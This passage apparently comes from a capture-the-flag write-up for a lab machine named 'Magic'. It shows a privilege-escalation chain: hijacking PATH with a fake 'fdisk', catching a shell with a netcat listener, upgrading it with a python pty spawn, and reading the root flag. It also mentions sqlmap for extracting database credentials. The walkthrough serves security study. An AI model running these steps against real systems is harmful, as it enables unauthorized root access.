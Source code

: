 ```
```
export PATH=/tmp:$PATH
chmod 755 fdisk
```

Open a netcat on your machine:
```
nc -nlvp 7778
```

Use sysinfo command on magic machine:
```
sysinfo
```

Ones you get a system bash, run python command below to get bash shell:
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

You now have root! Route to root directory to get the root flag:
```
cat /root/root.txt
```
That's it!

<br />

## Alternatives
An alternative way to get the database username and password is using sqlmap. See SQLMap below for my step to step on how to use that tool for this box.